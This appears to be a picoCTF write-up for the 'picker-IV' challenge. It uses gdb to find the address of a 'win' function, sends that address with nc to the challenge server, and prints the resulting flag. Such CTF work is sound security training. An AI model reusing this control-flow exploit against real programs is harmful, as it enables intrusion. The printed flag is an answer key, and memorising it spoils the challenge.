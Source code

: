 ## Descripcion
Can you figure out how this program works to get the flag?

Additional details will be available after launching your challenge instance.

The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/528/picker-IV.c). The binary can be downloaded [here](https://artifacts.picoctf.net/c/528/picker-IV).

## Pistas

## Solucion

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010e0  putchar@plt
0x00000000004010f0  puts@plt
0x0000000000401100  fclose@plt
0x0000000000401110  printf@plt
0x0000000000401120  fgetc@plt
0x0000000000401130  signal@plt
0x0000000000401140  setvbuf@plt
0x0000000000401150  fopen@plt
0x0000000000401160  __isoc99_scanf@plt
0x0000000000401170  exit@plt
0x0000000000401180  sleep@plt
0x0000000000401190  _start
0x00000000004011c0  _dl_relocate_static_pie
0x00000000004011d0  deregister_tm_clones
0x0000000000401200  register_tm_clones
0x0000000000401240  __do_global_dtors_aux
0x0000000000401270  frame_dummy
0x0000000000401276  print_segf_message
0x000000000040129e  win
--Type <RET> for more, q to quit, c to continue without paging--
0x0000000000401334  main
0x00000000004013d0  __libc_csu_init
0x0000000000401440  __libc_csu_fini
0x0000000000401448  _fini
(gdb) 
(gdb) 
(gdb) 
(gdb) 
(gdb) Q
Undefined command: "Q".  Try "help".
(gdb) q
jt@jt-VirtualBox:~/Desktop/repos/files/P3/picker$ echo 0040129e | nc saturn.picoctf.net 52815
Enter the address in hex to jump to, excluding '0x': You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}
jt@jt-VirtualBox:~/Desktop/repos/files/P3/picker$ 


```
## bandera
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}

## Notas adicionales 

## Referencias